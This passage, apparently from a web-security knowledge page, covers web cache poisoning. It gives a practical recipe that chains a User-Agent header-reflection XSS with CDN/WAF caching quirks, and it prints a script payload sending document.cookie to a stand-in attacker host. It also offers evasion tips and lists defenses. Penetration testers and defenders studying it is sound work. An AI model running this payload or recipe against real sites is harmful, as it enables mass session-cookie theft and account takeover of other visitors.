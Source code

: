 The [Web Cache Vulnerability Scanner](https://github.com/Hackmanit/Web-Cache-Vulnerability-Scanner) can be used to automatically test for web cache poisoning. It supports many different techniques and is highly customizable.

Example usage: `wcvs -u example.com`

### Header-reflection XSS + CDN/WAF-assisted cache seeding (User-Agent, auto-cached .js)

This real-world pattern chains a header-based reflection primitive with CDN/WAF behavior to reliably poison the cached HTML served to other users:

- The main HTML reflected an untrusted request header (e.g., `User-Agent`) into executable context.
- The CDN stripped cache headers but an internal/origin cache existed. The CDN also auto-cached requests ending in static extensions (e.g., `.js`), while the WAF applied weaker content inspection to GETs for static assets.
- Request flow quirks allowed a request to a `.js` path to influence the cache key/variant used for the subsequent main HTML, enabling cross-user XSS via header reflection.

Practical recipe (observed across a popular CDN/WAF):

1) From a clean IP (avoid prior reputation-based downgrades), set a malicious `User-Agent` via browser or Burp Proxy Match & Replace.
2) In Burp Repeater, prepare a group of two requests and use "Send group in parallel" (single-packet mode works best):
   - First request: GET a `.js` resource path on the same origin while sending your malicious `User-Agent`.
   - Immediately after: GET the main page (`/`).
3) The CDN/WAF routing race plus the auto-cached `.js` often seeds a poisoned cached HTML variant that is then served to other visitors sharing the same cache key conditions (e.g., same `Vary` dimensions like `User-Agent`).

Example header payload (to exfiltrate non-HttpOnly cookies):

```
User-Agent: Mo00ozilla/5.0</script><script>new Image().src='https://attacker.oastify.com?a='+document.cookie</script>"
```

Operational tips:

- Many CDNs hide cache headers; poisoning may appear only on multi-hour refresh cycles. Use multiple vantage IPs and throttle to avoid rate-limit or reputation triggers.
- Using an IP from the CDN's own cloud sometimes improves routing consistency.
- If a strict CSP is present, this still works if the reflection executes in main HTML context and CSP allows inline execution or is bypassed by context.

Impact:

- If session cookies aren’t `HttpOnly`, zero-click ATO is possible by mass-exfiltrating `document.cookie` from all users who are served the poisoned HTML.

Defenses:

- Stop reflecting request headers into HTML; strictly context-encode if unavoidable. Align CDN and origin cache policies and avoid varying on untrusted headers.
- Ensure WAF applies content inspection consistently to `.js` requests and static paths.
- Set `HttpOnly` (and `Secure`, `SameSite`) on session cookies.
